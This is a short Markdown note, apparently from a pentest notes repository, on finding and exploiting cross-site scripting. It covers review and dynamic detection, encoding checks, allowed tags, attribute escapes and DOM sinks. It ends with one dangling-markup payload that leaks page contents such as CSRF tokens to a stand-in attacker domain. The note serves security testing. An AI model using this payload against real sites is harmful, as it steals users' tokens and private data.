 # Cross-Site Scripting (XSS)

## Code Review Detection
Check for any user input or data input being written to HTML wihtout sanitization.

## Dynamic Testing Detection
Send unique strings to user inputs and see if any input is reflected back to any components on the web page.

## Exploitation

### Encoding
Check encodings of the following characters being reflected in HTML
```
&
<
>
"
'
```

They should appear as
```
& -> &amp
< -> &lt;
> -> &gt;
" -> &#034; -> &quot;
' -> &#039; -> &apos;
```

If the characters are being reflected into other forms of data representation, check the specific characters that are applicable.

### Available Tags
Some applications allow certain HTML tags to be included in user input. Check if they lead to XSS using [Portswigger's XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### HTML Tag Attributes
If the user input is reflected in tag attributes and it is possible to escape the HTML attrbitue, this can lead to XSS by specifying malicious tag attributes.

### DOM-based XSS
Look for DOM sinks.

### Dangling Markup Injection
Where XSS is not possible, try using payload like the following:
```
"><img src='//attacker-website.com?
```
The rest of the HTML page would be treated like a parameter and leaked to attacker controlled domain. This could be used to grab CSRF tokens, email messages, or sensitive data on the page.
